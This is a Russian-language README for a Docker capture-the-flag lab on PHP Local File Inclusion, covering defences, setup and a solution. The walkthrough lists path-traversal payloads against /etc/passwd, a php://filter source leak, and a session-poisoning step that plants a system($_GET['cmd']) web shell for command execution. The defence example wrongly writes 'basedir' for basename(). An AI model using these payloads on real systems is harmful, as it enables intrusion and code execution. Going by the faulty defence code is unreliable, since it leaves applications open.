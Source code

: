 ﻿**Описание уязвимости**

Данная уязвимость возникает в приложениях, если пользователь может каким-то образом взаимодействовать с API файловой системы. В большинстве случаев web-приложение использует GET или POST параметры для передачи их содержимого одной из возможной функции включения файлов, но не ограничивается ими.

Функции в разных языках, которые могут приводить к LFI:

- **PHP**: `include()` / `include\_once()` , `file\_get\_contents()`, `fopen() / file()`
- **Java**: `import`
- **.NET**: `@Html.RemotePartial()` , `include`
- **NodeJS**: `res.render()`

  Кроме того, если web-сервер собирает какую-то информацию, например в /etc/apache2/access.log(в случае apache) или /var/log/nginx/access.log(в случае с nginx), то при наличии LFI, можно выставить в качестве значения заголовка User-Agent, какой- то код(в большинстве случаев на php), и включить log файл в следующем запросе. Если web сервер, настроен на обработку php файлов из директории, в которой находятся log файлы, то код выполнится.

**Способы защиты**

В большинстве случаев, необходимо убрать у пользователей возможность взаимодействовать с файловой системой, но если этого сделать нельзя, то тогда можно попытаться использовать следующие механизмы защиты.

- В случае с включением каких-то определённых файлов, можно использовать функцию basename(), которая принимает в качестве параметра любой путь, а возвращает название файла с его расширением. Конечный код должен выглядеть так:

`include basedir($\_GET['language'])`

- Необходимо выставлять значение таких переменных, как allow\_url\_fopen или allow\_url\_include на off, так как большинство из них позволяет использовать обёртки.
- Можно использовать переменную open\_basedir, которая не позволит злоумышленнику получить доступ к файлам, находящимся вне директории, прописанной в качестве значения данной переменной.
- Делать рекурсивную проверку на наличие последовательностей типа '../' или '..\'
```php
while (strpos($param\_value, '../') !== false) {
  $param\_value = str\_replace('../', '', $param\_value); 
}
```
- Использование WAF

**Запуск приложения**

Для запуска данного приложения необходимо:

- скачать репозиторий
- зайти в директорию с файлом docker-compose.yaml
- в случае, если не нужно менять параметры, зайти из терминала в директорию с конфигурационными файлами и прописать:
```shell
docker-compose up
```
- в файле docker-compose.yaml можно поменять значение порта с 8090 на любой другой
- в файле .env можно поменять значение флага на желаемое

**Описание уязвимости**

Необходимо получить доступ к файлу /flag.txt.

В данном приложении есть возможность выбора языка, на котором отобразится текст страницы. Реализована данная возможность с помощью передачи GET параметра lang в HTTP запросе к index.php. У пользователя есть возможность обращаться только к файлу index.php.

Приложение получает и обрабатывает GET параметры, убирая при этом последовательности символов "../". В результате запроса php генерирует html страничку, на которой в объект div с классом container происходит включение содержимого файла из GET параметра с помощью функции include . Кроме того в приложении происходит отслеживание информации о пользователе:

$path\_to\_lang\_file = $\_GET['lang']; $\_SESSION[![ref1]'language'] = $path\_to\_lang\_file;

Вектор атаки:

- при обращении на index.php в качестве значения GET параметра использовать php код
- посмотреть на имя cookie в Storage с помощью инструмента разработчика
- в следующем GET запросе в качестве значения GET параметра использовать файл абсолютный путь до файла /tmp/sess\_<имя-cookie>
- при следующих запросах необходимо повторить шаги 1 и 2 снова

**Решение**

Первое, что можно сделать - это попытаться найти path traversal в GET параметре, передавая в качестве значения следующие полезные нагрузки:
```
../../../../../../../../../../../../etc/passwd ..././..././..././..././..././..././..././etc/passwd ....//....//....//....//....//....//....//....//etc/passwd %2E%2E%2F%2E%2E%2F%2E%2E%2F%2E%2E%2F%2E%2E%2F%2E%2E%2F%2E%2E%2F%2E%2E%2F%2E%2E%2F%2E%2![](./img/Aspose.Words.341f10a6-e995-4500-83c1-896da81956a4.007.png) E%2F%2E%2E%2F%2E%2E%2Fetc%2Fpasswd %252E%252E%252F%252E%252E%252F%252E%252E%252F%252E%252E%252F%252E%252E%252F%252E%252E% 252F%252E%252E%252F%252E%252E%252F%252E%252E%252Fetc%252Fpasswd
```
В результате будет выводиться следующее:![](./img/Aspose.Words.341f10a6-e995-4500-83c1-896da81956a4.009.jpeg)

Это может навести на мысль о том, что значение заголовка фильтруется.

Можно попытаться использовать php wrappers для получения index.php в base64:
```php
php://filter/convert.base64-encode/resource=./index.php
```
![](./img/Aspose.Words.341f10a6-e995-4500-83c1-896da81956a4.011.jpeg)

Получаем содержимое страницы в base64.

Используем любой доступный декодер и получаем следующее:

![](./img/Aspose.Words.341f10a6-e995-4500-83c1-896da81956a4.012.jpeg)

В данном файле имеется три подсказки:

- выставленное значение переменной open\_basedir(/app, /tmp - в первой директории хранятся файлы, во второй - сессии)
- комментарий о том, что сессии хранятся в директории tmp
- $\_SESSION['language'] = $path\_to\_lang\_file , где $path\_to\_lang\_file в случае обхода фильтрации будет содержать значение GET параметра.

  После этого можно сделать GET запрос с определённым значением:

  ![](./img/Aspose.Words.341f10a6-e995-4500-83c1-896da81956a4.013.jpeg)

  И проверить сохранилось ли это значение в сессии:

  ![](./img/Aspose.Words.341f10a6-e995-4500-83c1-896da81956a4.014.jpeg)

  Полезная нагрузка в данном случае будет следующая:
```http
http://localhost:8090/index.php?lang=<?php system($\_GET['cmd']);?>
http://localhost:8090/index.php?lang=/tmp/sess\_<имя-cookie>?cmd=url-encode(команда)
```
![](./img/Aspose.Words.341f10a6-e995-4500-83c1-896da81956a4.015.jpeg)

Видим содержимое корня и замечаем файлик flag.txt

![](./img/Aspose.Words.341f10a6-e995-4500-83c1-896da81956a4.016.jpeg)

Выводим содержимое файла и получаем флаг:

![](./img/Aspose.Words.341f10a6-e995-4500-83c1-896da81956a4.017.jpeg)

[ref1]: ./img/Aspose.Words.341f10a6-e995-4500-83c1-896da81956a4.006.png
